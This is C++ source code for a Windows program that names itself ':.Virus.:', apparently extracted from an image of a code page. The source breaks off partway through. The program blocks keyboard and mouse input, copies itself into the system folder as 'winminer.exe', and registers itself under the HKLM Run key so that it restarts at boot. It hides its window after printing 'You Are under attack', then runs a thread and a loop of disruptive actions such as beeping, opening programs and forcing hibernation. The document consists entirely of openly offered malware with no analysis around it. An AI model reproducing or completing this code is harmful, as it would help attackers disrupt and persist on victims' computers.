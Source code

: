 ```
       
void SetUp();
void Run( int ID );
void Beeper(), OpenStuff(), Hibernation(), CrazyMouse();
 
DWORD WINAPI DestroyWindows(LPVOID);
 
int main()
{
    srand( time(0) );
    random = rand()%6;  
    system("title :.Virus.:");
    BlockInput( true );
    SetUp();
    BlockInput( false );
    CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&DestroyWindows, 0, 0, NULL);
    while(1)
    {
            Run( random );
            Sleep(10);
    }
}
void SetUp()
{
     char system[MAX_PATH];
     char pathtofile[MAX_PATH];
     HMODULE GetModH = GetModuleHandle(NULL);
     GetModuleFileName(GetModH,pathtofile,sizeof(pathtofile));
     GetSystemDirectory(system,sizeof(system));
     strcat(system,"\\winminer.exe");
     CopyFile(pathtofile,system,false);
      
     HKEY hKey;
     RegOpenKeyEx(HKEY_LOCAL_MACHINE,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",0,KEY_SET_VALUE,&hKey );
     RegSetValueEx(hKey, "SetUp",0,REG_SZ,(const unsigned char*)system,sizeof(system));
     RegCloseKey(hKey); 
      
     mywindow = FindWindow(NULL,":.Virus.:");
     cout<<"You Are under attack";
     Sleep(1000);
     ShowWindow(mywindow, false);
}
 
void Run( int ID )
{
     if( ID == 1 )
     {
         BlockInput(true);
     }
     else if( ID == 2 )
     {
          Beeper();
     }
     else if( ID == 3 )
     {
          OpenStuff();
     }
     else if( ID == 4 )
     {
          Hibernation();
     }
     else if( ID == 5 )
```